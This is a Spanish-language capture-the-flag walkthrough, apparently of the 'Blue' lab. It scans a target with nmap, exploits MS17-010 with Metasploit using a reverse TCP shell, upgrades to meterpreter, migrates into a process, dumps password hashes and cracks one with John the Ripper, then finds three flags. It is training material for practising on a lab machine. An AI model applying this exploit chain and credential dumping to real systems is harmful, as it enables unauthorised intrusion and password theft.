# BLUE

## NMAP



Buscamos vulnerabilidades 

    nmap -sV -sC --script vuln 10.10.141.85



## Metasploit
Buscamos la vunerabilidad anterior 

    search ms17-010



Establecemos ``RHOSTS``


    set payload windows/x64/shell/reverse_tcp

Ejecutamos el exploit y tendremos una shell, salimos con ``CTRL + Z``

Buscamos un modulo que permita cambiar de shell a meterpreter

    search shell_to_meterpreter



Ejecutamos con ``run`` y tendremos 2 sesiones iniciadas


Listamos todos los procesos corriendo con ``ps``


Tendremos que migrar a un proceso, en este caso ``1540``

    migrate 1540

Usamos el comando ``hashdump``, para ver los hashes de las contraseñas


Pasamos el hash a un txt y lo rompemos

    echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt



## Flags
En ``C:`` encontraremos la primera flag


En ``c:\Windows\System32\Config`` encontramos la segunda flag

Dentro de los documentos de Jon encontramos la tercera flag

